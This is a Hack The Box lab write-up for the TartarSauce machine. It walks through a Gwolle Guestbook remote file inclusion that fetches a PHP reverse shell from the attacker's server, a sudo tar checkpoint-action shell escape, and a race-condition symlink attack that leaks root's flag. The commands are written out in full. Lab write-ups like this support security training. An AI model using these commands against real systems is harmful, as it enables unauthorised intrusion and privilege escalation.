# TartarSauce — Write-Up

| Field | Details |
|---|---|
| **Machine** | [TartarSauce](https://app.hackthebox.com/machines/TartarSauce) |
| **Platform** | [Hack The Box](https://hackthebox.com/) |
| **Operating System** | Linux (Ubuntu, kernel 4.15.0) |
| **Difficulty** | Medium |
| **Flags** | 2 (user + root) |

---

## Reconnaissance

### Port Enumeration

A full Nmap scan is run against the target to discover active services:

```bash
nmap -p- -sCV -T5 10.129.1.185 -oN TartarSauce
```



Services found:

| Port | Service | Version |
|---|---|---|
| 80/tcp | HTTP | Apache httpd 2.4.18 (Ubuntu) |

The scan also flags a `robots.txt` file with **5 disallowed entries**:

```
/webservices/tar/tar/source/
/webservices/monstra-3.0.4/
/webservices/easy-file-uploader/
/webservices/developmental/
/webservices/phpmyadmin/
```

The page title is reported as *Landing Page*.

---

## Web Enumeration

### Landing Page

Browsing to the root of the web server shows a static ASCII-art landing page, with no obvious functionality:



### Directory Fuzzing

`ffuf` is used against the web root with a medium-sized wordlist to discover hidden directories:

```bash
ffuf -u http://10.129.1.185/FUZZ -c -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100
```



The `webservices` directory is found (`301`). Browsing directly to it returns a `403 Forbidden`, confirming the directory exists but its index listing is blocked:



Fuzzing is repeated inside `/webservices/`:

```bash
ffuf -u http://10.129.1.185/webservices/FUZZ -c -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100
```



This reveals a `wp` directory, suggesting a WordPress installation.

### Virtual Host / Hosts File

The hostname `tartarsauce.htb` is added to `/etc/hosts` pointing to the target IP, in case the application relies on name-based virtual hosting or absolute links:



Browsing to `http://tartarsauce.htb/webservices/wp/` confirms a live **WordPress** site — a barebones "Test blog" with a default *Hello world!* post:



---

## WordPress Enumeration

### WPScan

`wpscan` is run against the WordPress install to enumerate plugins aggressively:

```bash
wpscan --url http://tartarsauce.htb/webservices/wp -e ap --plugins-detection aggressive
```



Several plugins are identified:



| Plugin | Version | Status |
|---|---|---|
| `akismet` | 4.0.3 | Outdated |
| `brute-force-login-protection` | 1.5.3 | Up to date |
| `gwolle-gb` | 2.3.10 | Outdated (latest: 5.1.0) |
| `woocommerce-gateway-placetopay` | — | Present |

The **Gwolle Guestbook** plugin stands out as a promising target for a known, unauthenticated vulnerability.

---

## Exploitation — Gwolle Guestbook RFI (CVE-2015-8351)

A search on Exploit-DB confirms that **Gwolle Guestbook ≤ 1.5.3** is vulnerable to an unauthenticated **Remote File Inclusion (RFI)**:



The `abspath` GET parameter in `frontend/captcha/ajaxresponse.php` is not sanitized before being used in a PHP `require()` call, allowing a remote attacker to point it at a file hosted on an attacker-controlled server. If a file named `wp-load.php` is placed there, it gets included and executed on the vulnerable server:

```
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[attacker]/
```

### First Attempt

A local HTTP server is started, and the vulnerable endpoint is requested with `abspath` pointing back to it:

```bash
# Attacker machine
python3 -m http.server 80

# Trigger the RFI
curl -s 'http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.70/'
```

The server log confirms the target requests `wp-load.php`, but returns `404` since the file does not exist yet:



### Building the Payload

A PHP reverse shell is generated with [revshells.com](https://www.revshells.com), configured with the attacker's IP and port `9002`, using the PentestMonkey PHP template:



The generated payload is saved locally as `wp-load.php`, with the callback IP/port set accordingly:



### Triggering the Shell

With `wp-load.php` now present in the served directory and a listener running, the RFI request is repeated:

```bash
# Attacker machine
python3 -m http.server 80
nc -lvnp 9002

# Trigger the RFI again
curl -s 'http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.70/'
```

The HTTP server now returns `200` for `wp-load.php`, and a reverse shell is caught on the listener as `www-data`:



```
Linux TartarSauce 4.15.0-041500-generic ... i686 athlon i686 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Privilege Escalation — www-data → onuma

Basic enumeration is performed from the low-privileged shell:

```bash
id
sudo -l
ls /home
```



The `sudo -l` output reveals that `www-data` can run `/bin/tar` **as user `onuma`**, with no password required:

```
User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

This is a well-known **GTFOBins** privilege escalation vector: GNU `tar` supports the `--checkpoint-action` flag, which can be abused to execute arbitrary commands during archive operations. Running `tar` under `sudo -u onuma` with this flag spawns a shell running as `onuma`:

```bash
sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

This yields a shell as the `onuma` user:



```
onuma@TartarSauce:~$ ls
shadow_bkp
user.txt
```

The `user.txt` flag is read from `onuma`'s home directory. An interesting artifact, `shadow_bkp`, is also present in the home folder — a leftover backup file that hints at how careless the backup routines on this host are, which becomes relevant in the next stage.

---

## Privilege Escalation — onuma → root

### Discovering the Backup Cron Job with pspy

Since no interactive process listing is available, **pspy** is used to monitor processes without requiring elevated privileges, looking for scheduled tasks running as `root`:



A recurring process is observed, executed by `UID=0` at regular intervals:

```
/bin/bash /usr/sbin/backuperer
```

### Analyzing `backuperer`

The script is readable by `onuma` and is inspected:



Key behavior of the script:

- It backs up `/var/www/html` (`$basedir`) into a temporary archive under `/var/tmp` (`$tmpdir`), using a **predictable filename** derived from a random hash: `/var/tmp/.$(head -c100 /dev/urandom | sha1sum | cut -d' ' -f1)`.
- The backup itself is created with `sudo -u onuma /bin/tar -zcvf $tmpfile $basedir` — i.e. the archive is created **as `onuma`**, a user the attacker already controls.
- After a `sleep 30`, the script (running as **root** via cron) extracts that same archive into a `$check` directory and runs `diff -r $basedir $check$basedir` to verify integrity.
- Any differences found by `diff` are appended, **as root**, to `/var/backups/onuma_backup_error.txt` — a file readable by `onuma`.

Because `/var/tmp` is world-writable and the backup/verification cycle is predictable and has a 30-second race window, an attacker who controls the `onuma` account (which creates the original archive) can **swap the archive** before root extracts and diffs it. If the swapped archive contains a **symlink** in place of a real file, root's `diff` will happily follow it and leak its content into the (onuma-readable) error log — including files `onuma` has no direct permission to read, such as `/root/root.txt`.

### Building the Race Condition Exploit

A script is written to automate the race:



Logic of `scriptMalicious.sh`:

1. Watch `/var/tmp` for a new archive file created by the `backuperer` cron job (`onuma`'s `tar` run).
2. As soon as it appears, copy it locally and extract it.
3. Delete `robots.txt` inside the extracted web root and replace it with a **symlink**: `ln -s /root/root.txt var/www/html/robots.txt`.
4. Repack the archive with the tampered `robots.txt` and swap it back into `/var/tmp`, overwriting the legitimate archive before root's extraction/diff step runs.
5. Tail `/var/backups/onuma_backup_error.txt` and wait for the next backup cycle to trigger the integrity check.

### Running the Exploit

The script is executed and left running while the cron job fires again:



Once `backuperer` runs as root, it extracts the tampered archive and diffs it against the live web root. Since `robots.txt` is now a symlink to `/root/root.txt`, root's `diff` reads and reports the **content of `root.txt`** directly into the error log tailed by `onuma`, fully bypassing the need for an interactive root shell:

```
diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
1,7c1
< User-agent: *
< Disallow: /webservices/tar/tar/source/
< Disallow: /webservices/monstra-3.0.4/
< Disallow: /webservices/easy-file-uploader/
< Disallow: /webservices/developmental/
< Disallow: /webservices/phpmyadmin/
<
---
> <root.txt content>
```

The root flag is successfully exfiltrated through the diff output, without ever needing a root shell on the box.

---

## Summary

| Phase | Technique | Tool |
|---|---|---|
| Enumeration | Port scan | `nmap` |
| Web enumeration | Directory fuzzing + `robots.txt` disclosure | `ffuf` |
| Web enumeration | WordPress plugin fingerprinting | `wpscan` |
| Exploitation | Remote File Inclusion — Gwolle Guestbook (CVE-2015-8351) | `curl`, PHP reverse shell |
| Initial access | Reverse shell as `www-data` | `nc` |
| Privilege escalation #1 | `sudo` misconfiguration — GTFOBins `tar` checkpoint-action | `sudo`, `tar` |
| Internal enumeration | Process monitoring without root | `pspy` |
| Privilege escalation #2 | Race condition / symlink attack on `backuperer` backup cron | Custom bash script |
